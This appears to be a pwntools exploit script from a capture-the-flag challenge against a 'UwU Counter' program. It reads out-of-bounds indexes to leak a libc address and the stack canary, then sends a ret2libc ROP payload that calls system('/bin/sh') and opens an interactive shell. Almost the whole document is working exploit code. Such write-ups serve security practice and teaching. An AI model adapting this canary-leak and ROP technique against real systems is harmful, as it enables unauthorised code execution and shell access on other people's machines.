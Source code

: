 ```py

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

io.sendlineafter(b"Index: ", b"47")
io.recvuntil(b"This UwU'er has UwU'ed ")
libc.address = int(io.recvuntil(b" times!\n", drop=True)) - libc.libc_start_main_return

io.sendlineafter(b"Index: ", b"43")
io.recvuntil(b"This UwU'er has UwU'ed ")
canary = int(io.recvuntil(b" times!\n", drop=True))

io.sendlineafter(b"Index: ", b"-1")

rop = ROP(libc)

payload = flat({
    0x108: canary,
    0x110 + 0x8: [
        rop.find_gadget(["ret"])[0],
        rop.find_gadget(["pop rdi", "ret"])[0],
        next(libc.search(b"/bin/sh\x00")),
        libc.sym['system'],
        ],
    })

io.sendlineafter(b"Thanks for using my UwU Counter! What did you think?\n", payload)

io.interactive()
```
